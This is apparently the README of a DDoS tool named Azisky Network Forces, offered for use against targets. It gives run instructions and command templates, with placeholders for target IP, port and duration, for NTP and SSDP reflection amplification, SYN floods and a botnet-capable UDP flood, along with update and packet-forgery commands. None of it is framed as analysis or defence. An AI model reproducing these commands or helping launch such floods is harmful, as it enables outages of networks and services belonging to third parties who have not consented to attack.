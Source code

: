 Azisky Network Forces(ANF)
----------------------------
This script is running on Linux system. anf/server/ is for windows user, but you have to have a web package sender server to run this.
------------------------------------------------------------------------------------------------------------------------------------------


For Linux user：
----------------
1: You need to upload this to your system.
2: Open terminal, use "./anf" to run anf
3: Follow the guides&examples to launch your attach!


For Windows user:
-----------------
1: you will have to own a package sender server. Update ntp script: "./TFDDOS ntp update -1" Update udp script: "./TFDDOS udp update -1" Update syn script: "./TFDDOS syn update -1" attack : "sudo -i" custom forgery ： "./la us 100 ntp udp ssdp -1"
There are following methods to attach:

NTP reflection amplification(Recommended) ： "./ntp {ip} {port} ntp.txt 10 -1 {time(seconds)}"
SSDP reflection : "./ssdp {ip} {port} ssdp.txt 10 -1 {time(seconds)}"
SYN flood : "./syn {ip} {port} {time(seconds)}"
UDP botnet ： "./udp {ip} {port} 10 888 -1 {time(seconds)}" (botnet supported)
